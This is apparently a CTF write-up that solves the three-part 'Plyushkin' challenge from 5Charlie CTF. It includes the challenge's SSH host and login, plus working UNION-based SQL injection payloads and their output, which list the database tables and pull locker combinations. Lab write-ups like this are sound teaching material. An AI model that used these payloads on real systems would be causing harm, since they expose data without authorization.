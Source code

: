 ```yaml
---
title: "5Charlie CTF - Plyushkin"
date: 2020-06-26 00:00:00 -0500
categories:
  - write-up
tags:
  - ctf
  - write-up
  - linux
  - database
  - hacking
  - sqli
---
```


A write-up of the Plyushkin SQLi challenge from 5Charlie CTF.

## Plyushkin 1

### Plyushkin 1 - Challenge

To access this challenge, ssh to plyushkin@haxor.5charlie.com using the attached private key.

Log in to the application with username: plyushkin and password: Petrushka12.

What fields are available to search? (arrange in alphabetical order in format: afield,bfield,cfield)

NOTE: Ignore these two lines in the program output:
Here's the clue you were supposed to get:
Bobert, put something useful or useless here
They aren't a hint, white cell just didn't feel like recompiling ;)

**Attachments:** `id_plyushkin` - SSH Key

### Plyushkin 1 - Solution

We start out by connecting to the application with the given credentials and giving a blank input.

``` text
Password: Connecting to database...
Creating table in given database...
Created table in given database...
Inserting records...
System ready
Field to search on:
Invalid field, please enter: id, first, last, or age
```

**Flag:** `age,first,id,last`

I noticed a lot of people complaining about it not taking the flag.
I actually failed on my first input too. We just need to read better:

> (arrange in alphabetical order in format: afield,bfield,cfield)

'age' comes before 'first'. Doh!

## Plyushkin 2

### Plyushkin 2 - Challenge

What is the name of the table this program was designed to query?

### Plyushkin 2 - Solution

We can guess based upon the fields in the previous challenge that we're evaluating some sort of employee records database.
We could probably guess-check our way to the answer, but after playing with different inputs, it appears the application is vulnerable to SQL injection.
We are able to pull the names of tables by using an SQL UNION and querying the database tables that store information about the tables in the database.

{% highlight sql %}
6' OR 1=1 UNION SELECT 0,table_schema,table_name,0 FROM information_schema.tables;--
{% endhighlight %}

``` text
Age: 0
ID: 0
First Name: PUBLIC
Last Name: LOCKERS
Age: 0
ID: 0

First Name: PUBLIC
Last Name: PERSONNEL
Age: 0
ID: 0
```

**Flag:** `PERSONNEL`

## Plyushkin 3

### Plyushkin 3 - Challenge

What is Nikolai Gogol's locker combination? (format: ##-##-##)

### Plyushkin 3 - Solution

Looking again at the previous question, we can note that we already have the info on the table we're targering.
At this point we just need to contruct an SQL injection query to pull the combination.

{% highlight sql %}
6' OR 1=1 UNION SELECT 0,combination,combination,0 FROM public.lockers;--
{% endhighlight %}

``` text
ID: 0
First Name: 18-44-9
Last Name: 18-44-9
Age: 0
ID: 6
First Name: Nikolai
Last Name: Gogol
Age: 26
```

**Flag:** `18-44-9`
